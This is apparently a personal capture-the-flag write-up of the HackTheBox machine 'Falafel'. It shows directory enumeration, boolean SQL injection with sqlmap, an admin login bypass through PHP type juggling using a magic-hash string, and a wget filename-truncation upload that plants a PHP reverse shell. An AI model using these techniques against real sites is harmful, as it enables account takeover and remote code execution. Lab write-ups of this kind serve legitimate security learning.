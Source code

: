# 10 - Falafel


# Index

![](vx_images/2542343168894.png)



# Gobuster
```bash
┌─[user@parrot]─[10.10.14.12]─[~/htb/falafel]
└──╼ $ cat gobuster/falafel.log
/images               (Status: 301) [Size: 311] [--> http://falafel.htb/images/]
/login.php            (Status: 200) [Size: 7063]
/uploads              (Status: 301) [Size: 312] [--> http://falafel.htb/uploads/]
/header.php           (Status: 200) [Size: 288]
/assets               (Status: 301) [Size: 311] [--> http://falafel.htb/assets/]
/footer.php           (Status: 200) [Size: 0]
/upload.php           (Status: 302) [Size: 0] [--> profile.php]
/css                  (Status: 301) [Size: 308] [--> http://falafel.htb/css/]
/profile.php          (Status: 302) [Size: 9787] [--> login.php]
/index.php            (Status: 200) [Size: 7203]
/js                   (Status: 301) [Size: 307] [--> http://falafel.htb/js/]
/style.php            (Status: 200) [Size: 6174]
/logout.php           (Status: 302) [Size: 0] [--> login.php]
/robots.txt           (Status: 200) [Size: 30]
/cyberlaw.txt         (Status: 200) [Size: 804]
/connection.php       (Status: 200) [Size: 0]
/server-status        (Status: 403) [Size: 299]
```

# cyberlaw.txt
![](vx_images/1862750535509.png)

* User **chris**
* Admin access without password
* Code execution in image upload


# Wrong identification
![](vx_images/3057759218894.png)

After several tries we should notice **Wrong identification** is printed only when a username is valid.


# admin and chris
![](vx_images/855583786417.png)

# invalid usernames
![](vx_images/4556183849664.png)


# SQL injection

![](vx_images/3417417901260.png)


There is no such user obviously but it prints out wrong identification anyway because each condition returns true. That means we can inject sql. It's a boolean type sqli because we only get Wrong identification (True) and Try Again(False)


# SQLmap
![](vx_images/3945760082784.png)

To get a quicker result you can query only for mysql like I did here.


# Chris's password
![](vx_images/4365522158895.png)

Sqlmap managed to crack the password for chris.

Admin hash is also starts with 0e. This might be a type juggling problem

in php

* '7' == 7  # True
* '7ab' == 7 # True

Php will extract the number from the string and do the comparison after that

If the number starts 0e this will be parsed as 0. It is mentioned in [#Type juggling in php](file:///home/user/htb/falafel/notes/10%20-%20Falafel.md#type-juggling-in-php)



# Login Successful
![](vx_images/5737505716418.png)


# Type juggling in php 

![](vx_images/1294537515510.png)

php doesn't care if it is a string or an integer if the comparison is made by == and 0e is treated as 0

![](vx_images/1755869841261.png)

If we can find a hash starts with 0e, the hash for admin will be treated as 0

![](vx_images/3172282799665.png)


Php is comparing 0 == 0 in this example.

We need a magic string whose hash starts with 0e

I found this [240610708](https://news.ycombinator.com/item?id=9484757) for the admin password

# Admin

![](vx_images/4614126486307.png)


We know from cyberlaw.txt that there should be a vulnerability here.


# Wget client

![](vx_images/91011747315.png)

# Wget version
![](vx_images/2203399877129.png)

# Searchsploit
```bash
┌─[user@parrot]─[10.10.14.12]─[~]
└──╼ $ searchsploit wget
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                              |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------

GNU Wget < 1.18 - Arbitrary File Upload / Remote Code Execution                                                                                             | linux/remote/40064.txt
```

Unfortunately this box is running a patched version of wget.  The vulnerability arises when wget follows a redirect  and saves the file as its current name. This is basically arbitrary file upload, this has been patched on this box.  It saves the file as the original request.

# File length limit
![](vx_images/3064148841455.png)

It hints at filename length limit. We can abuse file name length to upload a php file.

![](vx_images/3098246462995.png)

However this doesn't look vulnerable at the first glance because we can't have a filename more than 255 on our linux box either. What does wget have to say about this?



![](vx_images/3600204598831.png)

Wget cuts down on file name if it exceeds 240 characters


```sql
Upload via url:
Upload Succsesful!
Output:

CMD: cd /var/www/html/uploads/0624-1906_51789a50b7486b13; wget 'http://10.10.14.12/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.png'

The name is too long, 240 chars total.
Trying to shorten...
New name is AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.
--2021-06-24 19:06:39--  http://10.10.14.12/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.png
Connecting to 10.10.14.12:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5493 (5.4K) [image/png]
Saving to: 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php'

     0K .....                                                 100%  679K=0.008s

2021-06-24 19:06:40 (679 KB/s) - 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php' saved [5493/5493]

Specify a URL of an image to upload:
```

AAAA.php.png filename is cut down to AAAA.php, now it has php file extension.

I used php-reverse-shell.php to get a  shell 

# [php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
![](vx_images/3394750701773.png)